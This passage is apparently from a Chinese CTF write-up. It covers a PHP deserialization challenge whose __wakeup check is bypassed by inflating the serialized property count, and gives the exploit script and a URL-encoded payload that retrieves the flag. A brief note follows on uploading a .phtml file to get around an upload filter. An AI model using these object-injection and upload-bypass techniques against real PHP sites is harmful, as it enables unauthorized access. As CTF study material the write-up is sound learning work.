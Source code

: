 ```php
    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}
?>
```

​	在destruct()里只要username为admin，password为100就能得到flag，但是反序列化时__wakeup会将username改为guest，所以要绕过wakeup，只需修改Name后面的2改为3即可(属性个数大于原来的真实属性值会绕过wakeup函数的执行)。另外因为变量为Privat,所以要进行url编码。

exp:

```php
<?php
class Name{
    private $username = 'admin';
    private $password = '100';
}
$a = new Name();
echo urlencode(serialize($a))
?>
```

```
payload:
index.php?select=O%3A4%3A%22Name%22%3A3%3A%7Bs%3A14%3A%22%00Name%00username%22%3Bs%3A5%3A%22admin%22%3Bs%3A14%3A%22%00Name%00password%22%3Bs%3A3%3A%22100%22%3B%7D 
```

![1626094839251](buuweb_page1.assets/1626094839251.png)

 

## [ACTF2020 新生赛]Upload

与2019极客大挑战的做法一样。

能上传pht但是不能解析，上传phtml即可。
